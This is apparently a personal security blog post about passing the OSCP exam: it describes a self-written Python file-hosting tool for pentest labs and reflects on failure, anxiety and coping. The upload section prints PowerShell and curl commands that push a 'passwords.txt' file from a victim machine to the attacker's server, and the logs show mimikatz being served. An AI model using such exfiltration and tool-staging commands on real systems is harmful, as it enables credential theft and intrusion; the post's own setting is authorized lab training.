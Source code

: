 ```yaml
---
title: "Writing Tools and Learning"
date: 2025-01-19
---
```


# Intro

When I started my career in security, getting the OSCP certification was one of my first goals. Unfortunately, I failed my first attempt. A bit over four years later, I retook the exam and passed. The journey between attempts was not as linear as I had imagined and it has taken me some time to finally write out some of my thoughts on the process.

Before reflecting, I want to share a simple tool I wrote to help me during the exam. I understand that this is a small, personal, and sporadic blog, but I think of it as a way to look back on my previous lines of thinking. Additionally, if something here helps even just one person on a similar journey, that would be a great accomplishment for me. 

# Transferring Files

Throughout the OSCP curriculum, a recurring scenario is the need to transfer files between machines. This could be for initial foothold payloads, privilege escalation scripts, and exfiltrating documents for analysis (or dumping secrets!). Offsec's learning materials show a few different ways to accomplish this task through SMB, FTP, or HTTP. There are also many other ways to accomplish this task. While reading a post on The DFIR Report ([here](https://thedfirreport.com/2024/10/28/inside-the-open-directory-of-the-you-dun-threat-group/)) describing a threat actor's open directory, I realized how much easier it would be to have an always-on http server to pull tooling from when needed. Also, it is important to avoid fiddling around and learning new tooling during a certification exam when time is a resource and also a source of anxiety.

Like many others, I initially started out using Python's built-in http server module. However, I continuously found that I needed to upload files from victim machines to the attack machine. I started using [goshs](https://github.com/patrickhener/goshs), (which is an amazing tool and has now been added to the kali repos,) but I wanted an easy way to upload files straight from a command line. (I believe this is possible since there is a GUI for uploads but I did not look too deep into this.) Also, after a few months of grinding machines on Vulnhub and Proving Grounds, I had accumulated a long list of scripts and tools for pentesting that became a pain to look through every time I needed something. My idea was to write a  command line tool to search through my folder of tools and spit out a command to run on a victim machine. It is definitely possible that someone has already solved this problem but I figured I should get some scripting exercise in and build something from the ground up. 

## What it does

Github: [hosting](https://github.com/ky2303/hosting)

Since you are usually on Offsec's VPN when doing the labs or exam, the script uses the IP address of `tun0` and the default port 8000 from Python's module. This can be changed with arguments. There are four commands to use in the tool: download, logs, search, upload. They all have single letter aliases (d, l, s, u). While testing and writing the tool, I ended up integrating of the `download` functionality into the `search` function. As a result, I almost never use the `download` function and will most likely remove it going forward.

Demo:

```bash
$ python3 hosting.py -p 80
VPN: ON
IP : 192.168.61.128
HTTP server started at http://localhost:80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Welcome to the file search CLI. Type help or ? to list commands.
>> 
```

![search]({{ "../assets/2025-01-19-writing-tools/search.png" | relative_url }})

![download]({{ "../assets/2025-01-19-writing-tools/download.png" | relative_url }})


## Commands

**Logs:** Since the tool runs the HTTP server and CLI modules together, output became a bit messy, so I decided to log everything from the server module to a file. This file can be shown by using `logs`. It will display the last 5 lines in the log file unless given an integer as an argument. The log file is deleted when exiting the CLI unless the `-l` argument is set to `True` when starting.

```bash
>> logs
2025-01-19 11:25:23,239 - "GET /mimikatz/x64/mimikatz.exe HTTP/1.1" 200 -
2025-01-19 11:26:42,177 - "GET /mimikatz/x64/mimikatz.exe HTTP/1.1" 200 -
```

**Search:** This function searches the hosted directory for a filename given as an argument. If a match is found, it shows both linux and windows commands to download the file, making it easy to copy/paste commands. This was the main usecase I had in mind for this tool and I think it came out great. I use it a lot.


**Upload:** Continuing with the theme of easy copy/pasting, this function just spits out linux and windows commands to upload files to the machine where this script is hosted. The http server class had to be extended a bit to add this functionality, but someone had already solved this problem so I copied [their code](https://gist.github.com/darkr4y/761d7536100d2124f5d0db36d4890109) for this part. I did run into some issues with files that were too large. (See Future.)

```bash
>> uploads passwords.txt
[*] Win upload command:
powershell -ep bypass -c "(New-Object Net.WebClient).UploadFile('http://192.168.61.128:80/passwords.txt', 'PUT', 'passwords.txt');"
[*] Linux upload commands:
curl -X PUT -T "passwords.txt" "http://192.168.61.128:80/passwords.txt"
```

## Future 

I recently came across a talk given by Tom Hudson that I enjoyed. I first heard of Tom (aka Tomnomnom) while listening to the Critical Thinking Bug Bounty podcast with Justin Gardner (aka rhynorater). In the talk, Tom shares a few great points about writing tools. I think Tom's idea of making simple tools that do one thing well is great and plan to continue iterating with this in mind.

The talk can be found here:

[Confessions of a Toolmaker - Tom Hudson](https://www.youtube.com/watch?v=lFBAo9TKRY8)

I also would like to fix the issue with larger files when sending PUT requests. I did not look into this closely but when I came across the problem, I used the `download` function in Evil-WinRM on windows machines or `scp` on linux. 


# Reflections

Back to my thoughts on the certification process. After failing my first exam attempt, I realized that I was way too overconfident. I had crested the initial peak of the Dunning-Kruger curve.

![dunning_kreuger]({{ "../assets/2025-01-19-writing-tools/dunning-kreuger.png" | relative_url}}) 

As I took a step back, I realized how many fundamental concepts I did not fully grasp. I did not give the labs as much time and thought as I should have and I quickly skimmed through the PDF that OffSec gives you. While this approach may have worked in the tests I took in former academic environments, it was inadequate for a practical exam in a simulated environment. Unfortunately, I needed a job so I decided to shelf the idea of getting the OSCP and hammered out some entry-level CompTIA certs to get past the HR filters. 

Fast-forward to mid-2024, I had been comfortably working in a security role for about two years, participated in a few more CTFs, and completed almost every list of OSCP-like machines on Vulnhub that I could find. I decided to get the Learn-One subscription to OffSec which comes with the OSCP curriculum, access to a lot more practice machines, and two exam attempts. I scheduled my exam for September and started studying. 

Then, at the end of August, OffSec announced that they were changing the exam again to an "assumed compromise"-type exam, removing the bonus points for doing labs, and creating an "OSCP+" certification that expires every 3 years. This was about three weeks before my scheduled exam date, but it would not take effect until November. I thought about what to do for a few days but ultimately decided that since the original certification did not expire and I had already put many hours into doing the labs to get bonus points, it was best to stick to my original plan and take the exam in September. Thankfully, I passed and the bonus points helped. 

I now had the decision on whether I should use my second exam attempt on the wireless pentesting exam (OWSP) or try the OSCP+. Around this time, I realized that the pressure and anxiety that I put on myself to pass the exam had caused some health issues so I decided to take a little break from studying. After about a month of rest, I started doing Proving Grounds machines on OffSec again and decided to attempt the OSCP+ right after the holidays. What a terrible idea.

Unfortunately, I did not pass the OSCP+ exam. In the few days after, I was devastated and thought less of myself, constantly going over different enumeration methods and attacks I may have missed in my head. The feeling of failure after my first attempt returned, and I felt that I had crested another peak in another Dunning-Kruger curve. This is when I realized my own curve looked something like this:

![modified_dunning_kruger]({{ "../assets/2025-01-19-writing-tools/dunning-kreuger-modified.png" | relative_url}})

After some time and reflection, I figured that I had accomplished the original goal I set for myself when I first started out this journey. Even with the failures, I learned new things -- in security and about myself -- that made the input time valuable. Two things have helped me cope with low times for me career-wise. First, after the Denver Nuggets won their first NBA championship in franchise history in 2023, center Nikola Jokic had one of my favorite recent quotes:

![jokic_quote]({{ "../assets/2025-01-19-writing-tools/jokic.jpg" | relative_url }})

Secondly, a practical exercise that I recently started. Another podcast I enjoy is "My First Million" with Sam Parr and Shaan Puri. I one episode, Puri talks about a personal Slack channel he has called "Highs and Lows", in which he writes down the most emotional moments while running his businesses. When an extreme event happens, whether good or bad, Puri will write down the event in the channel, overtime creating a log of times to look back on and see how far you have come. I have started to do this in my own way by writing down these types of events for my own career (though not in a Slack channel). Doing this has been helpful, and my hope is that in the long-term it will help me smooth out my own modified Dunning-Kruger curve above, balancing emotions with confidence and competence. The last mention of Puri's "Highs and Lows" channel is at the 46:29 mark here: [MFM youtube](https://youtu.be/8yIrBHghAJE?si=XtSmc9IEeMfq-jTA&t=2789)
